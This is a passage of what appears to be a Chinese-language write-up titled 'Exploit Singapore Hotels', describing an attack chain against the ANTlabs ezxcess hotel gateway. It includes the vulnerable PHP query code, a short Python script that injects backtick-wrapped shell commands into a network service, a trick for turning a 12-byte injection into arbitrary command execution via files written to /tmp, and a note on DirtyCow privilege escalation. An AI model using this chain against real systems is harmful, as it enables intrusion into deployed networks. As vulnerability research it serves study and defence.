 我们只有 14 个字节的可控点，去掉首尾的反引号后还有 12 位。这太他妈 CTF 了吧。

另外还有一个限制：

```
while (true) {
    unset($printer_details);
    clearstatcache();

    if (!($res = $db-
>
query('SELECT * FROM ant_services.Acc_Printer WHERE printer_ip=\'' . mysql_real_escape_string($ip) . '\' AND status=\'enable\''))) {
        logSyslog('failed to query database to get printer details');
        exit(1);
    }

    if ($res-
>
rowCount() == '0') {
        logSyslog('is not found in registered printer list database ');
        exit(1);
    }
```

 我想执行命令的话，需要是在 `ant_services.Acc_Printer` 能查到我的 IP 的，不过对于拥有数据库权限的我们来说，不是什么大问题。

写了个脚本方便执行：

    import zio, sys

    io = zio.zio(('192.168.10.2', 1001))
    io.write('(`%s`)' % sys.argv[1])

不知道大家还记得之前提过有一个 FTP 的事情吗？我发现执行命令的结果会写在 FTP 下面的 log/acc/acc.log，这也算是意外之喜了。

![](https://img2.tuicool.com/byMnQnf.png "Exploit Singapore Hotels: ezxcess.antlabs.com")

Exploit Singapore Hotels: 

[ezxcess.antlabs.com](http://ezxcess.antlabs.com)

### 5. Unlimited RCE

 12 个字节怎么想怎么难受，但是想了想，我们有 MySQL，能写文档。如果把要执行的命令写到 /tmp 目录下，接着利用 `bash /tmp/a` 执行，只需要 11 个字节，那么就非常顺利的将受限的命令执行转化为任意命令执行了。

![](https://img0.tuicool.com/77z22yQ.png "Exploit Singapore Hotels: ezxcess.antlabs.com")

Exploit Singapore Hotels: 

[ezxcess.antlabs.com](http://ezxcess.antlabs.com)

### 6. DirtyCows

没啥好说的了，这个 CentOS 4 的版本，随便提权啦。

![](https://img0.tuicool.com/6fiYV32.png "Exploit Singapore Hotels: ezxcess.antlabs.com")

Exploit Singapore Hotels: 

[ezxcess.antlabs.com](http://ezxcess.antlabs.com)

